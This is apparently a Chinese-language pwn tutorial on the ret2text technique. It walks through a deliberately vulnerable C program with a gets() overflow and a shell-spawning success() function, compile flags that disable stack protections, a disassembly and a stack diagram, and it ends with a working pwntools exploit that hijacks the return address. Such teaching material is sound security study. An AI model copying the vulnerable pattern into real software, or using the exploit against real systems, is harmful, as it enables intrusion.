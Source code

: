 ```yaml
---
title: "ret2text"
date: 2024-06-01
draft: false
categories: ["pwn"]
tags: ["pwn", "rop", "stack overflow"]
series: ["rop"]
series_order: 1
summary: 通过栈溢出覆盖返回地址，跳转到text段中已存在的函数，从而劫持程序的控制流。
---
```

返回到文本段（Return to text segment）攻击，这是一种利用程序中的可执行代码段（text segment）来执行恶意操作的攻击。这种技术有几个基本前提：

- 程序中的某些代码位置是可预测的，同时在不同运行时是固定的
- 只需要利用程序的现有代码，无需注入新的代码

可以通过一个简单的例子说明这个问题：

```c
// example.c
#include <stdio.h>
#include <stdlib.h>

int success()
{
    puts("called success()!\n");
    return system("/bin/sh");
}

void vuln()
{
    char buf[32];

    gets(buf);
    puts(buf);
}

int main()
{
    vuln();
    return 0;
}

```

上述代码中的库函数 `gets` 是一个危险函数，通过以下给出的 `gets` 的一个实现，可以看出这个函数引起的严重问题。它从标准输入（stdin）读入一行，在遇到一个回车或某个错误时停止。`gets` 从不检查输入的长度，这导致它很容易被利用来进行栈溢出。

```c
/* Read a newline-terminated string from stdin into S,
   removing the trailing newline.  Return S or NULL.  */
char * gets (char *s)
{
  register char *p = s;
  register int c;
  FILE *stream = stdin;
  if (!__validfp (stream) || p == NULL)
    {
      __set_errno (EINVAL);
      return NULL;
    }
  if (feof (stream) || ferror (stream))
    return NULL;
  while ((c = getchar ()) != EOF)
    if (c == '\n')
      break;
    else
      *p++ = c;
  *p = '\0';
  /* Return null if we had an error, or if we got EOF
     before writing any characters.  */
  if (ferror (stream) || (feof (stream) && p == s))
    return NULL;
  return s;
}

```

通过 gcc 编译上述代码

```sh
$ gcc -std=c99 \            # 使用 C99 标准，C99 之后不支持 gets 函数
    -no-pie \               # 关闭地址随机化
    -fno-stack-protector \  # 关闭栈破坏检测
    -z execstack \          # 关闭栈不可执行
    example.c -o example
```

可以利用 checksec 来检查编译出文件的安全性

```sh
$ checksec example
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```

使用 IDA 反汇编程序，我们可以看到对应函数的汇编表示，

```assembly
; Attributes: bp-based frame

public vuln
vuln proc near

s= byte ptr -20h

; __unwind {
push    rbp
mov     rbp, rsp
sub     rsp, 20h
lea     rax, [rbp+s]
mov     rdi, rax
call    _gets
lea     rax, [rbp+s]
mov     rdi, rax        ; s
call    _puts
nop
leave
retn
; } // starts at 40116A
vuln endp
```

可以看出当程序运行时，`vuln` 函数在运行时的栈帧如下所示。如果提供大于32字节的数据时栈帧中保存的栈指针和返回地址。因此我们可以输入大于32字节的数据来覆盖返回地址，从而控制程序的执行流。

```markdown
|      rsp       |
|:--------------:|
|  char buf[0]   |
|      ...       |
|  char buf[31]  |
|:--------------:|
|      rbp       |
|:--------------:|
| return address |
```

以下是利用 pwntools 编写的 wp:

```python
from pwn import *

context(log_level='debug', arch='amd64', os='linux')
sh = process('./example')

# gdb.attach(sh)

success_addr = 0x401146
payload = b'a' * 0x20 # buf[32]
payload += b'b' * 8 # rbp
# 伪造返回地址，跳转到 nop ; ret，Ubuntu18及以上版本的系统要求在调用system函数时栈16字节对齐，
# 即调用system函数时rsp的值必须是16的倍数，也就是末位为0，否则无法执行。这里多进行一次 rtn 以实现对齐
payload += p64(0x40112f)
payload += p64(success_addr) # success 函数地址

sh.sendline(payload)
sh.interactive()
```

> NOTE:
>
> 上述代码中，没有立即跳转到 `success()` 的运行地址，这是源于 `system()` 函数运行时的**栈16字节对齐**要求。
